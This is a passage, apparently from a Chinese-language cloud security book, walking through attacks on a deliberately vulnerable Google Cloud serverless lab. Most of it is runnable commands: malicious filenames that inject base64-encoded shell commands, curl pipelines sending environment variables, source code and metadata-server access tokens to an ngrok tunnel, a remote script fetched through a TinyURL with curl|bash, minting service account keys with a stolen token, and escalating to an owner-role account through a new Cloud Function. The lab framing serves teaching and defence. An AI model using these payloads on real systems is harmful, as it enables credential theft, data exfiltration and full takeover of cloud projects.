至此，你已完成设置本地服务器和 `ngrok` 隧道所需的所有步骤，以便在以下部分的模拟中接收被外泄的数据。

#### 从 Cloud Run 服务外泄环境变量

本地服务器和 `ngrok` 隧道准备就绪后，让我们通过上传一个带有恶意文件名的文件来模拟代码注入攻击。这次，不会建立反向 Shell。相反，恶意文件名中的有效载荷将仅通过 `curl` 命令直接将凭据发送到 `ngrok` 隧道。

#### Note

本节假设你使用攻击者账号来模拟攻击者与 Serverless Lab 账号中的无服务器实验环境资源进行交互。

让我们继续进行模拟：

1. 在攻击者账号的 Cloud Shell 终端中，运行以下命令将输入存储桶的名称存储在 `INPUT_BUCKET` 变量中：

```
INPUT_BUCKET="[INPUT BUCKET]"
```

请务必将 `[INPUT BUCKET]` 替换为以 `ss-input-bucket` 开头的指定输入云存储桶名称。

2. 在攻击者账号的 Cloud Shell 终端中，将 `ngrok` URL 存储在 `NGROK_URL` 变量中：

```
NGROK_URL="https://[ID].ngrok-free.app"
```

请务必将 `[ID]` 替换为 `ngrok` 分配的唯一子域名。

3. 构造一个包含命令的恶意文件名，该命令将受损资源环境中的环境变量发送到 `ngrok` URL：

```
COMMAND="env | curl -X POST --data-binary @- $NGROK_URL"
ENCODED=$(echo "bash -c '$COMMAND'" | base64 -w0)
FILENAME="index.html; echo $ENCODED | base64 -d | bash #.html"
```

这里，`@-` 是一个 `curl` 参数，表示“从 stdin 读取请求体”。你需要在 `@-` 和 `ngrok` URL 之间留一个空格（即 `--data-binary @- https://...`），以便数据来源参数和目标 URL 是独立的 shell 参数。如果没有这个空格，URL 将成为同一个 token 的一部分，命令将不会按预期运行。运行这些命令将生成一个包含嵌入式 Base64 编码命令的恶意文件名，如果被应用程序执行，将解码并将受损资源的环境变量发送到攻击者控制的 `ngrok` URL。

4. 使用前一步构造的文件名创建文件：

```
touch -- "$FILENAME"
```

5. 将文件上传到指定的 Cloud Storage 存储桶：

```
gsutil cp -- "$FILENAME" gs://$INPUT_BUCKET/
```

文件上传后几秒钟，你应该能在 Flask 服务器日志中看到受损 Cloud Run 服务的环境变量：

```
PYTHON_SHA256=...
PYTHON_VERSION=3.10.18
K_REVISION=vuln-wkhtml-service-...
SECRET=PASSWORD123
CLOUD_RUN_TIMEOUT_SECONDS=10
PWD=/app
PORT=8080
...
```

#### Note

这展示了存储在环境变量中的凭据，例如 `SECRET=PASSWORD123`，如何被攻击者通过恶意文件名和简单的 HTTP 请求外泄。

至此，你应该明白，即使没有建立反向 Shell 连接，攻击者仍可通过恶意文件名和简单的 HTTP 请求直接从环境中外泄敏感凭据。

从防御安全角度来看，避免将凭据存储在环境变量中非常重要，因为如果无服务器函数或计算资源被攻破，攻击者可以轻松外泄它们。除了解决代码注入漏洞外，你还应考虑限制出站网络流量以帮助防止未经授权的数据外泄。

#### 从 Cloud Run 服务外泄源代码

在本节中，你将模拟攻击者在执行代码注入攻击后外泄易受攻击的 Cloud Run 服务源代码。与前一节一样，不会建立反向 Shell；相反，恶意文件名中的有效载荷将仅通过 `curl` 命令直接将 Cloud Run 服务的源代码发送到 `ngrok` 隧道。

#### Note

本节假设你使用攻击者账号来模拟攻击者与 Serverless Lab 账号中的无服务器实验环境资源进行交互。

让我们继续进行模拟：

1. 将输入存储桶的名称存储在 `INPUT_BUCKET` 变量中：

```
INPUT_BUCKET="[INPUT BUCKET]"
```

2. 将 `ngrok` URL 存储在 `NGROK_URL` 变量中：

```
NGROK_URL="https://[ID].ngrok-free.app"
```

请务必将 `[ID]` 替换为 `ngrok` 分配的唯一子域名。

3. 构造一个包含命令的恶意文件名，该命令列出文件并将输出发送到 `ngrok` URL：

```
COMMAND="ls -1 . | curl -X POST --data-binary @- $NGROK_URL"
FILENAME="index.html; $COMMAND #.html"
echo $FILENAME
```

这会产生以下输出：

```
index.html; ls -1 . | curl -X POST --data-binary @- ... #.html
```

4. 让我们尝试使用构造的文件名创建一个文件：

```
touch -- "$FILENAME"
```

这会导致以下错误消息：

```
touch: cannot touch '...': No such file or directory
```

5. 将存储在 `COMMAND` 中的 bash 命令转换为 Base64 编码字符串并存储在 `ENCODED` 变量中：

```
ENCODED=$(echo "bash -c '$COMMAND'" | base64 -w0)
echo $ENCODED
```

你应该会得到一个类似以下的编码字符串：

```
YmFzaCAtYyAnbHMgLTEgLiB8IGN1cmwgLVggUE9TVCAtLWRhdGEtYmluYXJ5IEAtIGh0dHBzOi8vYWJjZGVmZ2hpai5uZ3Jvay1mcmVlLmFwcCcK
```

6. 构造一个包含 Base64 编码的 bash 命令的文件名：

```
FILENAME="index.html; echo $ENCODED | base64 -d | bash #.html"
```

 resulting filename 应类似于以下内容：

```
index.html; echo YmFzaCAtYyAnbHMgLTEgLiB8IGN1cmwgLVggUE9TVCAtLWRhdGEtYmluYXJ5IEAtIGh0dHBzOi8vYWJjZGVmZ2hpai5uZ3Jvay1mcmVlLmFwcCcK | base64 -d | bash #.html
```

7. 使用构造的文件名创建一个空文件：

```
touch -- "$FILENAME"
```

8. 将文件上传到指定的 Cloud Storage 存储桶：

```
gsutil cp -- "$FILENAME" gs://$INPUT_BUCKET/
```

9. 文件上传后几秒钟，你应该能在 Flask 服务器日志中看到受损 Cloud Run 服务应用程序目录中的文件列表：

```
-------------------------------------------------
BODY
-------------------------------------------------
main.py
```

10. 构造并编码一个 bash 命令，将 `main.py` 的内容发送到指定的 `ngrok` URL：

```
COMMAND="curl -X POST --data-binary @main.py $NGROK_URL"
ENCODED=$(echo "bash -c '$COMMAND'" | base64 -w0)
echo $ENCODED
```

11. 构造一个包含 Base64 编码命令的文件名：

```
FILENAME="index.html; echo $ENCODED | base64 -d | bash #.html"
echo $FILENAME
```


#### 使用构造的文件名创建空文件

```
touch -- "$FILENAME"
```

#### 将文件上传到指定的 Cloud Storage 输入存储桶

```
gsutil cp -- "$FILENAME" gs://$INPUT_BUCKET/
```

文件上传几秒后，你应该能在 Flask 服务器日志中看到被入侵的 Cloud Run 服务的源代码：

```
import os
import subprocess
from flask import Flask, request

...

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

至此，你已成功完成从易受攻击的 Cloud Run 服务外泄源代码的模拟。从防御角度来看，这凸显了将密钥硬编码在应用程序代码中的风险，如果无服务器计算资源被入侵，这些密钥可能会被暴露。

### 从 Cloud Run 服务外泄服务账号凭据

在本节中，你将模拟攻击者通过代码注入攻击从易受攻击的 Cloud Run 服务外泄服务账号凭据。如前所述，而不是建立反向 shell，文件名包含一个恶意负载，该负载将与被入侵的 Cloud Run 服务关联的服务账号凭据通过 `curl` 转发到 `ngrok` 隧道。

让我们继续进行模拟：

##### 1. 将 `ngrok` URL 存储在 `NGROK_URL` 变量中

```
NGROK_URL="https://[ID].ngrok-free.app"
```

确保用 `ngrok` 分配的唯一子域替换 `[ID]`。如果 `NGROK_URL` 变量已设置，可以跳过此步骤。

##### 2. 构造元数据令牌端点 URL 并将其存储在 `TOKEN_URL` 变量中

```
META_HOST="http://169.254.169.254"
META_PATH="/computeMetadata/v1/instance/service-accounts/default"
TOKEN_EP="token"

TOKEN_URL="${META_HOST}${META_PATH}/${TOKEN_EP}"
```

##### 3. 生成获取令牌并将其发送到你的 `ngrok` URL 的命令的 Base64 编码版本

```
ENCODED=$(echo "bash -c 'curl -s -H \"Metadata-Flavor: Google\" $TOKEN_URL \
  | curl -X POST --data-binary @- $NGROK_URL'" | base64 -w0)
```

##### 4. 创建一个包含恶意命令注入负载的文件名的新文件

```
FILENAME="index.html; echo $ENCODED | base64 -d | bash #.html"
touch -- "$FILENAME"
```

由于存储在 `$FILENAME` 中的文件名的长度超过了 ext4 文件系统对单个文件名强制执行的 255 字节限制，命令将失败并出现 `File name too long` 错误：

```
touch: cannot touch 'index.html; echo ... | base64 -d | bash #.html': File name too long
```

此 255 字节限制大致相当于 255 个字符的限制（使用单字节字符时）。由于存储在 `$FILENAME` 中的值包含 Base64 编码的负载，该负载完全由单字节 ASCII 字符组成，因此总字符数有效地等于总字节数。这意味着如果存储在 `$FILENAME` 中的完整字符串超过 255 个字符，它也将超过 255 字节的文件系统限制。

##### 5. 打开一个新浏览器标签页并导航到 [*https://github.com*](https://github.com)。

##### 6. 在打开 GitHub 页面的浏览器标签页上，点击“Sign in”并登录你的 GitHub 账号。如果没有账号，[你可以免费创建一个](https://oreil.ly/m8DUg)。你需要一个 GitHub 账号来在接下来的步骤中创建 gist。

点击右上角的 + 图标并从下拉菜单中选择“New gist” (Figure 10-2)。



你将被重定向到可以创建新 gist 的页面。在这里，你可以输入脚本的代码，指定文件名，并可选地添加描述。

在“Create a new Gist”页面上的文本区域中输入以下脚本：

```
#!/bin/bash

NGROK_URL="https://[ID].ngrok-free.app"

META_HOST="http://169.254.169.254"
META_PATH="/computeMetadata/v1/instance/service-accounts/default"
TOKEN_EP="token"

TOKEN_URL="${META_HOST}${META_PATH}/${TOKEN_EP}"

curl -s -H "Metadata-Flavor: Google" $TOKEN_URL \
  | curl -X POST --data-binary @- $NGROK_URL
```

执行此脚本时，它会通过内部元数据端点从实例元数据服务器检索 Google Cloud 访问令牌。然后脚本将令牌发送到通过 `ngrok` 隧道公开的公共 URL。

#### Note

确保在点击“Create secret gist”之前用 `ngrok` 分配的唯一子域替换 `[ID]`，该子域将流量转发到本地服务器的 8000 端口。

使用 `send.sh` 作为文件名，输入到“Filename including extension…”字段中。

点击“Create secret gist”以保存脚本以便在动手步骤中稍后使用。

右键点击 Raw 按钮并从上下文菜单中选择“Copy link address”。

将原始 gist URL 存储在本地文本文件中，以便在下一组步骤中快速检索它。

##### 7. 启动一个新浏览器标签页并导航到原始 gist URL，以验证它是否显示纯代码而没有任何 HTML 格式或 GitHub 界面元素。

##### 8. 打开一个新浏览器标签页并导航到 [*https://tinyurl.com*](https://tinyurl.com)。

#### Note

TinyURL 让你可以将长链接转换为短链接，其字符数明显少于原始链接。在幕后，TinyURL 缩短链接会自动重定向到你输入的原始链接。或者，你也可以使用 Bitly 或其他 URL 缩短服务。

##### 9. 在 TinyURL 主页上，找到 URL 缩短表单。

#### Note

在完成本章的手动示例时，你无需登录或创建账号即可使用 TinyURL 上的 URL 缩短功能。

在“Enter long link here”字段中，指定指向原始 secret GitHub gist 的 URL：

```
https://gist.githubusercontent.com/[YOUR GITHUB USERNAME]/[GIST ID]/raw/[SPECIFIC VERSION]/send.sh
```

在“Enter alias”字段中输入自定义别名。

#### Tip

你可以使用生成的 `ngrok` 子域（例如 `https://[GENERATED-ID].ngrok-free.app`）作为别名，以便更轻松地记住命令、脚本或负载中的 URL。

点击“Verify that you are human”复选框以完成验证步骤。

点击 Shorten URL 生成缩短的 URL。然后将缩短的 URL 复制到本地文本文件中，以便在下一组步骤中快速引用和使用。

##### 10. 切回打开 Google Cloud 控制台（攻击者账号）的浏览器标签页。

##### 11. 在 Cloud Shell 终端中（在 `$` 符号之后）运行以下命令，将生成的缩短 URL 存储在名为 `SHORT_URL` 的变量中

```
SHORT_URL="https://tinyurl.com/[ALIAS]"
```

确保在运行命令之前用你的自定义 TinyURL 别名替换 `[ALIAS]`。如果指定的 TinyURL 别名为 `abcdef`，则 `SHORT_URL` 的值为：`"https://tinyurl.com/abcdef"`。

##### 12. 从存储在 `SHORT_URL` 中的缩短 URL 准备 Base64 编码的负载

```
RAW_COMMAND="curl -sL $SHORT_URL | bash"
ENCODED=$(echo "$RAW_COMMAND" | base64 -w0)
```

你可以在使用之前运行 `echo $ENCODED` 来查看 Base64 编码的负载。

##### 13. 创建一个包含恶意命令注入负载的文件名的新文件

```
FILENAME="index.html; echo $ENCODED | base64 -d | bash #.html"
touch -- "$FILENAME"
```


`--` 告诉 `touch` 命令停止将后续参数解释为选项，即使它们以连字符 (`-`) 开头。当你的文件名包含特殊字符，例如分号或连字符时，这很有用，这些字符可能会使命令混淆或触发意外行为。

#### Caution

如果你停止并重新启动你的 `ngrok` 隧道，下次启动时生成的子域名将会改变。这意味着你必须使用新的子域名更新 gist 脚本，使用 TinyURL 创建一个新的缩短 URL，并重复所有之前的步骤——包括生成编码后的有效载荷并使用恶意文件名创建新文件。

14. 指定文件将被上传到的 Cloud Storage 存储桶：

```
INPUT_BUCKET="[SPECIFY CLOUD STORAGE BUCKET]"
```

确保 `INPUT_BUCKET` 的值与配置了事件触发器的 Cloud Storage 存储桶的实际名称完全匹配。当有新文件上传时，该存储桶将调用 Cloud Run 服务。^(11)

15. 将文件上传到指定的 Cloud Storage 存储桶：^(12)

```
gsutil cp -- "$FILENAME" gs://$INPUT_BUCKET/
```

这会产生以下输出：

```
Copying file://index.html; echo ... | base64 -d | bash #.html
[Content-Type=text/html]...
- [1 files][   21.0 B/   21.0 B]
Operation completed over 1 objects/21.0 B.
```

#### Caution

在执行 `gsutil` 命令之前，请确保请求接收器 Flask 服务器和 `ngrok` 隧道都在运行。

16. 文件上传后几秒钟，你应该会在本地机器的终端中看到包含 Cloud Run 服务使用的服务账号访问令牌的 JSON 对象：

```
{"access_token":"...","expires_in":741,"token_type":"Bearer"}
```

17. 从此 JSON 对象中复制 `access_token` 的值。

18. 在攻击者账号的 CloudShell 终端中，将访问令牌存储在变量中：

```
ACCESS_TOKEN="[ACCESS TOKEN]"
```

确保将 `[ACCESS TOKEN]` 替换为实际的访问令牌值。

运行以下命令列出可通过访问令牌访问的所有项目：

```
curl -H "Authorization: Bearer $ACCESS_TOKEN" \
    https://cloudresourcemanager.googleapis.com/v1/projects
```

这会给出以下 JSON 输出：

```
{
  "projects": [
    {
      "projectNumber": "...",
      "projectId": "...",
      "lifecycleState": "ACTIVE",
      "name": "...",
      "createTime": "..."
    }
  ]
}
```

请注意 JSON 响应中的项目编号值，因为它将在下一步中使用。^(13)

19. 从上一步复制项目 ID 和项目编号，并分别存储在 `PROJECT_ID` 和 `PROJECT_NUMBER` 变量中：

```
PROJECT_ID="[PROJECT ID]"
PROJECT_NUMBER="[PROJECT NUMBER]"
```

在执行命令之前，请确保将 `[PROJECT ID]` 和 `[PROJECT NUMBER]` 替换为其实际值。

20. 列出该项目的 Cloud Storage 存储桶：^(14)

```
curl -s -H "Authorization: Bearer $ACCESS_TOKEN" \
    "https://storage.googleapis.com/storage/v1/b?project=$PROJECT_NUMBER"
```

你应该得到以下 JSON 响应：

```
{
  "kind": "storage#buckets",
  "items": [
    ...
    {
      "kind": "storage#bucket",
      "selfLink": "...",
      "id": "ss-another-bucket-...",
      "name": "ss-another-bucket-...",
      "projectNumber": "...",
      "generation": "...",

      ...
    }
    ...
  ]
}
```

21. 通过查询令牌信息端点来验证访问令牌的详细信息：

```
curl -s "https://oauth2.googleapis.com/tokeninfo?access_token=$ACCESS_TOKEN"
```

这会返回类似以下的 JSON 输出：

```
{
  "azp": "...",
  "aud": "...",
  "scope": "https://www.googleapis.com/auth/youtube ...",
  "exp": "...",
  "expires_in": "732",
  "email": "html-to-pdf@....iam.gserviceaccount.com",
  "email_verified": "true",
  "access_type": "online"
}
```

22. 从上一步复制服务账号电子邮件地址并将其存储在 `SA_EMAIL` 变量中：^(15)

```
SA_EMAIL="[EMAIL ADDRESS]"
```

23. 生成新的服务账号密钥然后将其保存到本地：^(16)

```
cd ~

BASE_URL="https://iam.googleapis.com/v1"
PROJECT_PATH="projects/$PROJECT_ID"
SERVICE_ACCOUNT="serviceAccounts/$SA_EMAIL"

curl -s -X POST \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  "$BASE_URL/$PROJECT_PATH/$SERVICE_ACCOUNT/keys" \
  -d '{}' \
  | jq -r '.privateKeyData' | base64 --decode > run-key.json
```

24. 检查 `run-key.json` 文件的内容：

```
cat run-key.json
```

这会产生以下输出：

```
{
  "type": "service_account",
  "project_id": "...",
  "private_key_id": "...",
  "private_key": "...",
  "client_email": "html-to-pdf@....iam.gserviceaccount.com",
  "client_id": "...",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/...",
  "client_x509_cert_url": "https://www.googleapis.com/...",
  "universe_domain": "googleapis.com"
}
```

25. 使用 `run-key.json` 文件以受损 Cloud Run 服务使用的服务账号身份进行身份验证：

```
export RUN_KEY_CREDENTIALS="run-key.json"
gcloud auth activate-service-account \
  --key-file=$RUN_KEY_CREDENTIALS
```

这会产生以下输出：

```
Activated service account credentials for:
 [html-to-pdf@....iam.gserviceaccount.com]
```

26. 将当前的 `gcloud` 项目设置为 `run-key.json` 中指定的项目：

```
PROJECT_ID=$(cat run-key.json | jq -r ".project_id")
gcloud config set project $PROJECT_ID
```

你应该得到以下确认消息：

```
Updated property [core/project].
```

27. 列出当前 Google Cloud 项目中的所有服务账号：

```
gcloud iam service-accounts list
```

这会给出一个服务账号列表——包括一个电子邮件地址以 `superadmin` 开头的服务账号：

```
...

DISPLAY NAME: Cloud Run HTML to PDF Service Account
EMAIL: html-to-pdf@....iam.gserviceaccount.com
DISABLED: False

DISPLAY NAME: superadmin
EMAIL: superadmin@....iam.gserviceaccount.com
DISABLED: False

...
```

28. 复制以 `superadmin` 开头的服务账号的电子邮件地址并将其存储在 `EMAIL` 变量中：

```
EMAIL="[EMAIL ADDRESS]"
```

29. 检查电子邮件地址以 `superadmin` 开头的服务账号分配的 IAM 角色：

```
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$EMAIL"
```

这会返回以下响应：

```
ROLE: roles/owner
```

30. 尝试冒充与 `roles/owner` 角色关联的服务账号：

```
gcloud iam service-accounts keys create ~/superadmin-key.json \
  --iam-account=$EMAIL \
  --impersonate-service-account=$EMAIL
```

这会产生以下错误消息：


```
WARNING: This command is using service account impersonation. All API calls will be executed as [superadmin@....iam.gserviceaccount.com].
ERROR: (gcloud.iam.service-accounts.keys.create) PERMISSION_DENIED: Failed to impersonate [superadmin@....iam.gserviceaccount.com]. Make sure the account that's trying to impersonate it has access to the service account itself and the "roles/iam.serviceAccountTokenCreator" role. Permission 'iam.serviceAccounts.getAccessToken' denied on resource (or it may not exist). This command is authenticated as html-to-pdf@....iam.gserviceaccount.com which is the active account specified by the [core/account] property. Impersonation is used to impersonate superadmin@....iam.gserviceaccount.com.
- '@type': type.googleapis.com/google.rpc.ErrorInfo
  domain: iam.googleapis.com
  metadata:
    permission: iam.serviceAccounts.getAccessToken
  reason: IAM_PERMISSION_DENIED
```

在此阶段，你已成功完成从受损的 Cloud Run 服务中窃取服务账号凭据的模拟。使用这些凭据后，你以服务账号身份进行了身份验证（`html-to-pdf@…​.iam.gservice​ac⁠count.com`），并检查是否可以直接冒充具有提升权限的其他服务账号（例如 `superadmin@…​.iam.gserviceaccount.com`），而无需所需的权限。正如你在以下各节中将看到的那样，在满足某些条件后，攻击者可以通过各种技术和方法提升权限。我们将在本章中介绍其中几种。

### 通过 Cloud Run 函数提升权限

在云环境中，如果满足某些条件，例如存在授予过度权限的 IAM 角色配置错误或暴露具有特定权限集的服务账号凭据，攻击者可以提升权限。攻击者可以使用众多技术成功提升权限，从启动新的计算或无服务器资源到利用身份和访问配置错误。

在本节中，你将探索攻击者如何通过启动新的 Cloud Run 函数并将其与具有更高权限的服务账号关联来进行权限提升。通过此新的 Cloud Run 函数，攻击者可以为具有提升权限的服务账号获取访问令牌，然后使用它以该服务账号身份进行身份验证。一旦以具有更高权限的服务账号身份进行身份验证，攻击者就可以以与服务账号的 IAM 角色分配允许的相同访问级别进行操作。

如 Figure 10-3 所示，本节中你将执行的模拟从使用受损的 `html-to-pdf@…​.iam.gserviceaccount.com` 服务账号部署新的 Cloud Run 函数并将其与 `superadmin@…​.iam.gserviceaccount.com` 服务账号关联开始。然后你将从已部署的函数资源中获取访问令牌，并使用它为 `superadmin@…​.iam.gserviceaccount.com` 生成服务账号密钥以进行身份验证。



#### Note

本节假设你正在使用攻击者账号，即你一直在用来模拟攻击者对托管在 Serverless Lab 账号中的无服务器实验室环境执行操作的账号。

让我们继续进行权限提升模拟：

1. 导航到 Cloud Shell 环境的主目录，然后打印 `run-key.json` 文件中的 JSON 值：

```
cd ~
    
cat run-key.json
```

这会产生以下输出：

```
{
  "type": "service_account",
  "project_id": "...",
  "private_key_id": "...",
  "private_key": "...",
  "client_email": "html-to-pdf@....iam.gserviceaccount.com",
  "client_id": "...",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/...",
  "client_x509_cert_url": "https://www.googleapis.com/...",
  "universe_domain": "googleapis.com"
}
```

`run-key.json` 文件包含 `html-to-pdf@…​.iam.gserviceaccount.com` 服务账号的私钥和相关凭据。

2. 使用 `run-key.json` 文件以受损 Cloud Run 服务使用的服务账号身份进行身份验证：

```
export RUN_SA_CREDENTIALS="run-key.json"
gcloud auth activate-service-account \
  --key-file=$RUN_SA_CREDENTIALS
```

你应该收到以下确认消息：

```
Activated service account credentials for:
 [html-to-pdf@....iam.gserviceaccount.com]
```

3. 通过从密钥文件检索项目 ID 来设置当前 `gcloud` 项目：

```
PROJECT_ID=$(cat run-key.json | jq -r ".project_id")
gcloud config set project $PROJECT_ID
```

4. 从密钥文件检索服务账号的电子邮件地址并将其存储在 `RUN_KEY_EMAIL` 变量中：

```
RUN_KEY_EMAIL=$(cat run-key.json | jq -r ".client_email")
echo $RUN_KEY_EMAIL
```

你应该得到以下输出：

```
html-to-pdf@....iam.gserviceaccount.com
```

5. 检查分配给服务账号的 IAM 角色以验证其权限：

```
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$RUN_KEY_EMAIL"
```

这会产生以下输出：

```
ROLE: roles/editor

ROLE: roles/iam.serviceAccountUser

ROLE: roles/run.admin
```

#### Caution

尽管没有直接冒充其他服务账号的能力，但 `roles/run.admin` 和 `roles/iam.serviceAccountUser` 角色的组合可以被攻击者利用来启动新的 Cloud Run 函数并将其与具有提升权限的现有服务账号关联。单独使用，`roles/run.admin` 仅允许管理 Cloud Run 资源，但如果没有 `roles/iam.serviceAccountUser`，则无法将服务账号附加到 Cloud Run 函数。

6. 列出当前 Google Cloud 项目中的所有服务账号：

```
gcloud iam service-accounts list
```

这会给出一个服务账号列表——包括一个电子邮件地址以 `superadmin` 开头的服务账号：

```
...

DISPLAY NAME: Cloud Run HTML to PDF Service Account
EMAIL: html-to-pdf@....iam.gserviceaccount.com
DISABLED: False

DISPLAY NAME: superadmin
EMAIL: superadmin@....iam.gserviceaccount.com
DISABLED: False
```

从显示名称（例如 `superadmin`）中，攻击者通常可以识别出哪些服务账号可能具有提升的权限，并利用它们来提升权限。

7. 复制以 `superadmin` 开头的服务账号的电子邮件地址并将其存储在 `SA_EMAIL` 变量中：

```
SA_EMAIL="[EMAIL ADDRESS]"
```

8. 检查电子邮件地址以 `superadmin` 开头的服务账号分配的 IAM 角色：

```
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$SA_EMAIL"
```

这会返回以下响应：

```
ROLE: roles/owner
```

此时，你已确定用于提升权限的服务账号。让我们继续通过设置一些先决条件并启动一个新的 Cloud Run 函数来检索与服务关联的服务账号的令牌：

1. 创建一个新目录，然后使用 `touch` 命令在目录内为 Cloud Run 函数的配置和代码创建初始空项目文件：


```bash
mkdir -p token-provider
cd token-provider

touch index.js
touch package.json
```

2. 点击 `Open Editor` 打开 Cloud Shell 编辑器，在此定义 Node.js 依赖项并指定应用程序代码。如果看不到 `token-provider` 目录，请点击刷新资源管理器按钮。

3. 在 Cloud Shell 编辑器中，使用以下代码更新 `index.js` 文件：

```javascript
exports.mainHandler = async (req, res) => {
  res.status(200).send({
    message: `It works!`
  });
};
```

打开并使用以下配置更新 `package.json` 文件：

```json
{
  "name": "secure-function",
  "version": "1.0.0",
  "main": "index.js"
}
```

点击 `Open Terminal` 切换回 CLI，在此可以运行命令。

4. 设置后续部署命令中使用的函数名称：

```bash
FUNCTION_NAME="token-provider"
```

5. 使用具有 `roles/owner` 角色的服务账号 (`superadmin@…​.iam.gserviceaccount.com`) 部署 Cloud 函数：

```bash
REGION="us-east1"

gcloud functions deploy $FUNCTION_NAME \
  --gen2 \
  --runtime=nodejs20 \
  --region=$REGION \
  --source=. \
  --entry-point=mainHandler \
  --service-account=$SA_EMAIL \
  --trigger-http \
  --no-allow-unauthenticated
```

这会产生以下输出：

```
Preparing function...done.
...
Completed with warnings:
  [WARNING] *** Improve build performance by generating
  and committing package-lock.json.
You can view your function in the Cloud Console here: ...

...

url: https://....cloudfunctions.net/token-provider
```

#### Caution

请确保不要意外地向此 Cloud Run 函数授予未经身份验证的访问权限，因为服务账号已配置了 `roles/owner` 角色。

6. 获取已部署 Cloud 函数的 HTTPS 端点：

```bash
FUNCTION_URL=$(gcloud functions describe $FUNCTION_NAME \
  --region=us-east1 \
  --gen2 \
  --format="value(serviceConfig.uri)")

echo $FUNCTION_URL
```

你应该得到以下输出：

```
https://token-provider-....a.run.app
```

7. 向 Cloud Run 函数发出授权请求：

```bash
TOKEN=$(gcloud auth print-identity-token)

curl -H "Authorization: Bearer $TOKEN" $FUNCTION_URL
```

这会产生以下 JSON 响应：

```
{"message":"It works!"}
```

8. 现在你有一个可用的 Cloud Run 函数，是时候修改应用程序代码以检索函数使用的服务账号的访问令牌了。点击 `Open Editor` 并打开 `index.js` 文件。

9. 在 Cloud Shell 编辑器中，更新 `index.js` 文件以从元数据服务器检索服务账号的访问令牌：

```javascript
const {execSync} = require('child_process');

const META_HOST = "http://metadata.google.internal";
const META_PATH = "/computeMetadata/v1/instance";
const SA_PATH   = "/service-accounts/default";
const TOKEN_EP  = "/token";

const FULL_URL = `${META_HOST}${META_PATH}${SA_PATH}${TOKEN_EP}`;

exports.mainHandler = async (req, res) => {
  try {
    const token = execSync(
      `curl -s -H "Metadata-Flavor: Google" "${FULL_URL}"`
    ).toString();

    res.setHeader('Content-Type', 'application/json');
    res.status(200).send(token);
  } catch (err) {
    console.error(err);
    res.status(500).send(err.message);
  }
};
```

点击 `Open Terminal`。

10. 部署 Cloud Run 函数的最新代码更改：

```bash
gcloud functions deploy $FUNCTION_NAME \
  --gen2 \
  --runtime=nodejs20 \
  --region=$REGION \
  --source=. \
  --entry-point=mainHandler \
  --service-account=$SA_EMAIL \
  --trigger-http \
  --no-allow-unauthenticated
```

几分钟后，你应该会看到以下日志消息：

```
Preparing function...done.
...
Completed with warnings:
  [WARNING] *** Improve build performance by generating
  and committing package-lock.json.
  [INFO] A new revision will be deployed serving with 100% traffic.
You can view your function in the Cloud Console here: ...

...

url: https://....cloudfunctions.net/token-provider
```

11. 向 Cloud Run 函数发出授权请求：

```bash
TOKEN=$(gcloud auth print-identity-token)

OUTPUT=$(curl -H "Authorization: Bearer $TOKEN" $FUNCTION_URL)

echo $OUTPUT
```

这会产生以下 JSON 响应：

```
{"access_token":"...","expires_in":...,"token_type":"Bearer"}
```

此从 Cloud Run 函数获取的访问令牌允许攻击者以关联的服务账号 (`superadmin@…​.iam.gservice​ac⁠count.com`) 身份进行身份验证。攻击者可以执行服务账号的 IAM 角色允许的任何操作。由于 `superadmin@…​.iam.gserviceaccount.com` 服务账号已被授予 `roles/owner` 角色，攻击者实际上获得了对项目的完全管理访问权限。

12. 将访问令牌存储在变量 (`SUPERADMIN_ACCESS_TOKEN`) 中：

```bash
SUPERADMIN_ACCESS_TOKEN=$(echo "$OUTPUT" | jq -r '.access_token')
```

13. 将以 `superadmin` 开头的服务账号的电子邮件地址存储在 `SUPERADMIN_EMAIL` 变量中：

```bash
SUPERADMIN_EMAIL="$SA_EMAIL"
```

14. 使用访问令牌生成新的服务账号密钥：

```bash
cd ~

BASE_URL="https://iam.googleapis.com/v1"
PROJECT_PATH="projects/$PROJECT_ID"
SERVICE_ACCOUNT="serviceAccounts/$SUPERADMIN_EMAIL"

curl -s -X POST \
  -H "Authorization: Bearer $SUPERADMIN_ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  "$BASE_URL/$PROJECT_PATH/$SERVICE_ACCOUNT/keys" \
  -d '{}' \
  | jq -r '.privateKeyData' | base64 --decode > superadmin-key.json
```

你可以通过运行 `cat superadmin-key.json` 来验证 `superadmin-key.json` 是否存在。

15. 使用生成的密钥以具有 `roles/owner` 角色的服务账号身份进行身份验证：

```bash
export SUPERADMIN_CREDENTIALS="superadmin-key.json"
gcloud auth activate-service-account \
  --key-file=$SUPERADMIN_CREDENTIALS

PROJECT_ID=$(cat superadmin-key.json | jq -r ".project_id")
gcloud config set project $PROJECT_ID
```

这会给出以下输出：

```
Activated service account credentials for:
 [superadmin@....iam.gserviceaccount.com]

Updated property [core/project].
```

#### Note

权限提升并不总是能让攻击者获得完全的 owner 级别访问权限。他们可以执行的操作仅限于被攻破的服务账号所分配的权限。

16. 运行以下命令列出所有已通过身份验证的 `gcloud` 账号：

```bash
gcloud auth list
```

这会产生以下输出：

```
Credentialed Accounts

...

ACTIVE:
ACCOUNT: html-to-pdf@....iam.gserviceaccount.com

ACTIVE: *
ACCOUNT: superadmin@....iam.gserviceaccount.com

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

在此，`superadmin@…​.iam.gserviceaccount.com` 账号当前处于活动状态，如 `ACTIVE` 列中的 `*` 所示。

17. 检查分配给服务账号的 IAM 角色，以验证其是否关联了 `roles/owner` 角色：

```bash
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$SUPERADMIN_EMAIL"
```

这会产生以下响应：


```
ROLE: roles/owner
```

